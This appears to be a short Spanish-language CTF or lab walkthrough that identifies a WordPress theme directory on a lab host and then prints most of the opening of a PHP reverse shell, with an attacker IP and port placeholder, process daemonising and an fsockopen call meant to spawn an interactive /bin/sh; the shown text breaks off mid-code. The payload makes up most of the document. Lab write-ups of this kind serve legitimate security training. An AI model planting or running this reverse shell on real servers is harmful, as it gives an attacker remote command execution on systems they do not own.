 #### direccion url: 10.10.141.53/web-conten/themes/twentyfifteen

### parece que esta es la direccion donde estan almacenados estos archivos php. asi que utilizaremos el siguiente codigo para intentar conseguir una reverse shell.

```python
<?php
set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
```